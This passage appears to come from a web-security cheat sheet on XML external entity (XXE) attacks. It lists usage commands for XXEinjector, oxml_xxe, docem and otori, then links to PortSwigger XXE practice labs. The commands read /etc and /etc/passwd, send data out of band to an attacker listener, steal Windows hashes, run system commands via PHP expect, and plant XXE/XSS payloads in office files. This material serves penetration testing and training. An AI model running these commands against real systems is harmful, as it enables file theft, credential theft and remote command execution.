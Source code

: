   ```bash
  ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --ssl
  # Enumerating /etc directory using gopher for OOB method:
  ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --oob=gopher
  # Second order exploitation:
  ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/vulnreq.txt --2ndfile=/tmp/2ndreq.txt
  # Bruteforcing files using HTTP out of band method and netdoc protocol:
  ruby XXEinjector.rb --host=192.168.0.2 --brute=/tmp/filenames.txt --file=/tmp/req.txt --oob=http --netdoc
  # Enumerating using direct exploitation:
  ruby XXEinjector.rb --file=/tmp/req.txt --path=/etc --direct=UNIQUEMARK
  # Enumerating unfiltered ports:
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --enumports=all
  # Stealing Windows hashes:
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --hashes
  # Uploading files using Java jar:
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --upload=/tmp/uploadfile.pdf
  # Executing system commands using PHP expect:
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --oob=http --phpfilter --expect=ls
  # Testing for XSLT injection:
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --xslt
  # Log requests only:
  ruby XXEinjector.rb --logger --oob=http --output=/tmp/out.txt
  ```
- [oxml_xxe](https://github.com/BuffaloWill/oxml_xxe) - A tool for embedding XXE/XML exploits into different filetypes (DOCX/XLSX/PPTX, ODT/ODG/ODP/ODS, SVG, XML, PDF, JPG, GIF)
  ```
  ruby server.rb
  ```
- [docem](https://github.com/whitel1st/docem) - Utility to embed XXE and XSS payloads in docx,odt,pptx,etc
  ```
  ./docem.py -s samples/xxe/sample_oxml_xxe_mod0/ -pm xss -pf payloads/xss_all.txt -pt per_document -kt -sx docx
  ./docem.py -s samples/xxe/sample_oxml_xxe_mod1.docx -pm xxe -pf payloads/xxe_special_2.txt -kt -pt per_place
  ./docem.py -s samples/xss_sample_0.odt -pm xss -pf payloads/xss_tiny.txt -pm per_place
  ./docem.py -s samples/xxe/sample_oxml_xxe_mod0/ -pm xss -pf payloads/xss_all.txt -pt per_file -kt -sx docx
  ```
- [otori](http://www.beneaththewaves.net/Software/On_The_Outside_Reaching_In.html) - Toolbox intended to allow useful exploitation of XXE vulnerabilities.
  ```
  python ./otori.py --clone --module "G-XXE-Basic" --singleuri "file:///etc/passwd" --module-options "TEMPLATEFILE" "TARGETURL" "BASE64ENCODE" "DOCTYPE" "XMLTAG" --outputbase "./output-generic-solr" --overwrite --noerrorfiles --noemptyfiles --nowhitespacefiles --noemptydirs 
  ```

## Labs

* [PortSwigger Labs for XXE](https://portswigger.net/web-security/all-labs#xml-external-entity-xxe-injection)
  * [Exploiting XXE using external entities to retrieve files](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files)
  * [Exploiting XXE to perform SSRF attacks](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf)
  * [Blind XXE with out-of-band interaction](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction)
  * [Blind XXE with out-of-band interaction via XML parameter entities](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities)
  * [Exploiting blind XXE to exfiltrate data using a malicious external DTD](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration)
  * [Exploiting blind XXE to retrieve data via error messages](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages)